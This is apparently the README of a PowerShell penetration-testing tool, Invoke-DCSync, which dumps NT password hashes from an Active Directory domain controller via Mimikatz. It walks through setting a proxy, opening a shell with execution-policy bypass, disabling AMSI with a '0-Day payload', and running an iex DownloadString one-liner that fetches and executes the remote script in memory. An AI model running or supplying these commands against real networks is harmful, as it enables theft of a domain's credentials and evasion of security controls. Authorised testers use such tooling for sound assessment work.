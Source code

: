 # Invoke-DCSync
PowerShell script to DCSync NT-Hashes from an Active Directory Domain Controller (DC) via Mimikatz. 

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. Use a 0-Day payload!

# DCSync Execution

Download ``Invoke-DCSync.ps1`` into memory, which executes the DCSync process. You will be prompted to start the DCSync process and the output directory with all relevant files will be automatically opened by Window's file explorer.

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-DCSync/main/Invoke-DCSync.ps1')
````

